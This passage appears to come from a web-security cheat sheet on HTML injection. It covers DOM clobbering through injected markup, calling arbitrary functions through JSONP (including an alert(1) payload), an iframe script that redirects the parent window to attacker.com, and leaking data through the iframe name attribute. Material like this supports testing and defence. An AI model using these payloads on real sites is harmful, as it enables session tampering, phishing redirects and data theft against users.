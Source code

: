 Create variables inside javascript namespace by inserting HTML tags. Then, this variable will affect the flow of the application:

```html
<img id="is_public" /> ← Injected markup ... // Legitimate application code
follows function retrieve_acls() { ... if (response.access_mode == AM_PUBLIC) ←
The subsequent assignment fails in IE is_public = true; else is_public = false;
} function submit_new_acls() { ... if (is_public) request.access_mode =
AM_PUBLIC; ← Condition always evaluates to true ... }
```

### Abuse of JSONP

If you find a JSONP interface you could be able to call an arbitrary function with arbitrary data:

```html
<script src='/editor/sharing.js'>:              ← Legitimate script
  function set_sharing(public) {
    if (public) request.access_mode = AM_PUBLIC;
      else request.access_mode = AM_PRIVATE;
    ...
  }

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
  set_sharing({ ... })
```

Or you can even try to execute some javascript:

```html
<script src="/search?q=a&call=alert(1)"></script>
```

### Iframe abuse

A child document possesses the capability to view and modify the `location` property of its parent, even in cross-origin situations. This allows the embedding of a script within an **iframe** that can redirect the client to an arbitrary page:

```html
<html>
  <head></head>
  <body>
    <script>
      top.window.location = "https://attacker.com/hacked.html"
    </script>
  </body>
</html>
```

This can be mitigated with something like: `sandbox=' allow-scripts allow-top-navigation'`

An iframe can also be abused to leak sensitive information from a different page **using the iframe name attribute**. This is because you can create an iframe that iframes itself abusing the HTML injection that makes the **sensitive info appear inside the iframe name attribute** and then access that name from the initial iframe and leak it.
